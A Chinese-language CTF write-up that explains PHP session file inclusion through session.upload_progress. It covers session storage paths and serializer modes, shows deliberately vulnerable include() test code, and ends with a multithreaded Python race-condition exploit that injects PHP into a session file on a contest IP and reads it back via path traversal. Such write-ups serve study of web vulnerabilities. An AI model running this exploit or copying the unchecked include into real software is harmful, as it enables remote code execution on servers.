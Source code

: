 # middle_source

打开环境，看到源码，应该文件包含，然后扫一下后台扫出来

```
[23:24:39] 200 -  208B  - /.listing
```

可以发现`you_can_seeeeeeee_me.php`是一个`phpinfo`文件

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/1.png)

在这里可以看到session的存储位置，还看到了`session.upload_progress`为ON，所以这里可以利用`session.upload_progress`进行文件包含。

## 原理

### 用户会话session的存储与处理过程

**会话存储**

`PHP`则是将session以文件的形式存储在服务器某个文件中，可以在`php.ini`里面设置session的存储位置`session.save_path`。

可以通过phpinfo查看`session.save_path`的值

总结常见的php-session默认存放位置是很有必要的，因为在很多时候服务器都是按照默认设置来运行的，这个时候假如我们发现了一个没有安全措施的session包含漏洞就可以尝试利用默认的会话存放路径去包含利用。

```
默认路径
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

如果某个服务器存在session包含漏洞，要想去成功的包含利用的话，首先必须要知道的是服务器是如何存放该文件的，只要知道了其命名格式我们才能够正确的去包含该文件。

`session`的文件名格式为`sess_[phpsessid]`。而phpsessid在发送的请求的cookie字段中可以看到。



**会话处理**

在了解了用户会话的存储下来就需要了解php是如何处理用户的会话信息。php中针对用户会话的处理方式主要取决于服务器在php.ini或代码中对`session.serialize_handler`的配置。

**session.serialize_handler**

PHP中处理用户会话信息的主要是下面定义的两种方式

```
session.serialize_handler = php           一直都在(默认方式)  它是用 |分割

session.serialize_handler = php_serialize  php5.5之后启用 它是用serialize反序列化格式分割
```

**session.serialize_handler=php**

服务器在配置文件或代码里面没有对session进行配置的话，PHP默认的会话处理方式就是`session.serialize_handler=php`这种模式机制。

下面通过一个简单的用户会话过程了解`session.serialize_handler=php`是如何工作的。

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/2.png)

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/3.png)

从图中可以看到默认`session.serialize_handler=php`处理模式只对用户名的内容进行了序列化存储，没有对变量名进行序列化，可以看作是服务器对用户会话信息的半序列化存储过程。

如果这里传入的不是Qftm，而是一句话木马，就会造成文件上传漏洞。

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/4.png)

**session.serialize_handler=php_serialize**

php5.5之后启用这种处理模式，它是用serialize反序列化格式进行存储用户的会话信息。一样的通过一个简单的用户会话过程了解`session.serialize_handler=php_serialize`是如何工作的。这种模式可以在php.ini或者代码中进行设置。

session.php

```php
<?php
    ini_set('session.serialize_handler', 'php_serialize');    
    session_start();
    $username = $_POST['username'];
    $_SESSION["username"] = $username;

?>
```

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/5.png)

## LFI本地文件包含漏洞

主要是包含本地服务器上存储的一些文件，例如Session会话文件、日志文件、临时文件等。但是，只有我们能够控制包含的文件存储我们的恶意代码才能拿到服务器权限。

session文件包含漏洞就是在用户可以控制session文件中的一部分信息，然后将这部分信息变成我们的精心构造的恶意代码，之后去包含含有我们传入恶意代码的这个session文件就可以达到攻击效果。

### 测试代码

session.php

```php
<?php

    session_start();
    $username = $_POST['username'];
    $_SESSION["username"] = $username;

?>
```

index.php

```php
<?php

    $file  = $_GET['file'];
    include($file);

?>
```

### 漏洞利用

分析session.php可以看到用户会话信息username的值用户是可控的，因为服务器没有对该部分作出限制。那么我们就可以传入恶意代码就行攻击利用。

首先查看session.save_path保存的地址

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/6.png)

在session.php传入一句话木马

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/7.png)

查看sessionid

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/8.png)

包含sess_sessionid这个文件，文件的内容为我们传入的一句话木马

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/9.png)

综上，通过文件上传恶意的sess_sessionid文件造成文件上传漏洞，之间访问sess_sessionid验证这个漏洞。

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/10.png)

从中也可以发现，文件包含漏洞包含的文件的类型没有限制。无论是sess_sessionid文件还是txt文件等任意文件类型均可。

![](https://zhuang-yongyi.gitee.io/yoyo/nep/middle_source/11.png)

```php
import io
import requests
import threading
sessid = 'SsBNMsssSssssL'
data = {"cmd":"system('cat flag.php');"}
def write(session):
 while True:
  f = io.BytesIO(b'a' * 1024 * 50)
  resp = session.post('http://124.71.233.92:20988/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php var_dump(scandir("/etc/");?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
  #readfile("etc/hfhajdgdcd/defcheebfe/abfihbefda/fdbdahacif/ajddhaeaab/fl444444g")
def read(session):
 while True:
  data={
  'filed':'',
  'cf':'../../../../../..//var/lib/php/sessions/hceffdjaee/sess_'+sessid
  }
  resp = session.post('http://124.71.233.92:20988/index.php',data=data)
  if 'tgao.txt' in resp.text:
   print(resp.text)
   event.clear()
  else:
   print("[+++++++++++++]retry")
if __name__=="__main__":
 event=threading.Event()
 with requests.session() as session:
  for i in range(1,30): 
   threading.Thread(target=write,args=(session,)).start()
  for i in range(1,30):
   threading.Thread(target=read,args=(session,)).start()
 event.set()
```

等有环境再继续复现。

# 参考文章

https://www.anquanke.com/post/id/201177#h3-2

https://www.freebuf.com/news/202819.html

